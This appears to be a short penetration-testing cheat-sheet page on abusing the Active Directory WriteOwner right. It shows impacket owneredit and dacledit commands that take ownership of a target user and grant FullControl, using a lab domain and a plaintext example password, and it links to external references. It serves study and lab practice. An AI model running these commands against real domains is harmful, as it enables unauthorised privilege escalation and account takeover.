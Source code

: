 # WriteOwner

## <mark style="color:yellow;">Writing an owner</mark>

> We only have rights to write owner, it doesn't mean we are the owner. But here we are changing that

```powershell
impacket-owneredit -action 'write' -new-owner 's.reed' -target 'songbird' 'MILITECH.LOCAL'/'S.REED':'P@ssword123'
```

## <mark style="color:yellow;">Adding a FullAccess DACL</mark>

> Since we are the owner, we can write to ourselves full access to user songbird

```powershell
impacket-dacledit -action 'write' -rights 'FullControl' -principal 's.reed' -target 'songbird' 'MILITECH.LOCAL'/'S.REED':'P@ssword123'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/grant-ownership#grant-ownership" %}

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/grant-rights#grant-rights" %}
